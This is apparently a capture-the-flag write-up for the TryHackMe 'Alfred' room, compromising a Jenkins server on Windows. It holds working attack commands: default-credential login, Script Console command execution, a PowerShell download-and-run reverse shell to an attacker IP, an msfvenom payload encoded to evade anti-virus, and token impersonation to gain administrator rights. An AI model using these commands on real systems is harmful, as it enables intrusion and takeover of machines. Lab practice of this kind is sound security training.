 # <div align='center'>[Alfred](https://tryhackme.com/room/alfred)</div>
<div align='center'>Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.</div>
<div align='center'>
  <img src='https://github.com/user-attachments/assets/335a1059-b792-4edc-a5e2-ea767b35e798' height='200'></img>
</div>

# Step 1: Recconance 
```
:~$ nmap -sV 10.10.219.84
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-04 20:35 IST
Nmap scan report for 10.10.219.84
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
3389/tcp open  ssl/ms-wbt-server?
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
1. The scan shows there are 3 ports open
* `80` with web service.
* `3389` useless
* `8080` jenkins running

The port number 80 as default let take a look

![image](https://github.com/user-attachments/assets/7483aad4-dbc8-4c4c-b387-ae7b2848ea25)

find nothing usefull here 

2. As the Jenkins version is outdated let take a look at it

![image](https://github.com/user-attachments/assets/84cdf8d0-1e7e-4d29-9853-e5010f586658)

Okay let try default credentials `admin:admin`

![image](https://github.com/user-attachments/assets/a53f02a6-4d96-4c6f-94ca-ea4b7376ead0)

bingo ! im genious


# Step 2: Exploitation
After Scrollig for long i found a this in `Manage Jenkins` > There is `Script Console`

![image](https://github.com/user-attachments/assets/4a883914-a503-4df8-b551-98415f9cc72b)

After wasting some time i understand the:

let swape cmd and take a look at `C:` drive:

```
cmd = "cmd.exe /c dir"
println cmd.execute().text
```

![image](https://github.com/user-attachments/assets/08208f34-aedc-4bf8-b079-79792292dfb5)

We got some data Now can cast a reverse shell here but 1st we need a reverse shell 
```
git clone https://github.com/samratashok/nishang
```

Go to this directory 
```
cd nishang/Shells/
```

Now we need to pull our revrse shell from our system and place and execute that into target system for doing that in `Shell` directory open a python server to pull the reverse shell form it:
```
python3 -m http.server
```

![image](https://github.com/user-attachments/assets/ec758bd2-d1b0-4211-8d65-cf8fcf5eafc7)

Now Set up a `Netcat` listner on differet port:
```
nc -lnvp 1234
```
For reverse connection

Now we need to download this reverse shell into traget system
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-Listner-port"
println cmd.execute()
```

Like this:
```
cmd = "powershell iex (New-Object Net.WebClient).DownloadString('http://10.17.14.127:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.17.14.127 -Port 1234"
println cmd.execute()
```

Got the Connection 

![image](https://github.com/user-attachments/assets/9e6bc915-db95-4347-bcd8-d57eeb0c8c3e)

# Step 3: Post Exploitation

## User flag.txt
```
cat 'C:\Users\bruce\Desktop\user.txt'
```
<!-- 79007a09481963edf2e1321abd9ae2a0 -->
![image](https://github.com/user-attachments/assets/d78864b1-d5c9-46fc-a42c-bec8cfbff9f8)


## Switching Shells
To make the privilege escalation easier, let's switch to a meterpreter shell using the following process.

Use msfvenom to create a Windows meterpreter reverse shell using the following payload:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-test.exe
```

This payload generates an encoded x86-64 reverse TCP meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly and also to evade anti-virus products. An anti-virus product may not recognise the payload and won't flag it as malicious.

Start Msfconsole
```
msfconsole -q
```
Start A TCP reverse Handler for connection
```
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
```
Set Lhost
```
set LHOST your-thm-ip set
```
Set Lport
```
LPORT 5555
```
Start the Listner
```
run
```

First We need to download the our Payload in the Enemy system for doing that open new terminal where your playload is created in my case it `/home/user`
```
python3 -m http.server
```

Download using this command on cmd
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"
```

![image](https://github.com/user-attachments/assets/4408c39f-2e4b-4662-abd9-33f0291d7937)

Let executt it
```
Start-Process "shell-test.exe"
```
![image](https://github.com/user-attachments/assets/ec6fbbcd-504b-4557-86e0-e49ed71d4b73)

Now Let Swape shell
```
shell
```
![image](https://github.com/user-attachments/assets/f52a258f-15aa-4005-b744-567a4465c22a)

Let Check for privillage
```
whoami /prive
```
![image](https://github.com/user-attachments/assets/c873e060-900e-4642-b150-32b0005d4af6)

You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability.

Enter: `load incognito` to load the incognito module in Metasploit. Please note that you may need to use the use incognito command if the previous command doesn't work. Also, ensure that your Metasploit is up to date.
```
load incognito
```
Press `ctrl`+`c` to exit shell and back to meterpreter

Let see which tokens are available
```
list_tokens -g
```
![image](https://github.com/user-attachments/assets/580e84f2-ddf3-4c5c-a265-50404dd99b3e)

We can see that the BUILTIN\Administrators token is available.

Let  impersonate the Administrators' token:
```
impersonate_token "BUILTIN\Administrators"
```

![image](https://github.com/user-attachments/assets/15dfdeb9-451f-4199-84b2-ab173774e818)

## Root Flag.txt

Let Migrate our permissions

to migrate check the running process

![image](https://github.com/user-attachments/assets/0ee6b838-9ec2-434e-aa7a-81c4f56eeb4b)

Let migrate to this service
```
migrate PID-OF-PROCESS
```
![image](https://github.com/user-attachments/assets/c1b0fc0a-a1f4-4769-8e52-1bf3016fda1f)

View Our Flag
```
type 'C:\Windows\System32\config\root.txt'
```

![image](https://github.com/user-attachments/assets/609af3d5-7e0b-43b4-a689-640cbde2695e)
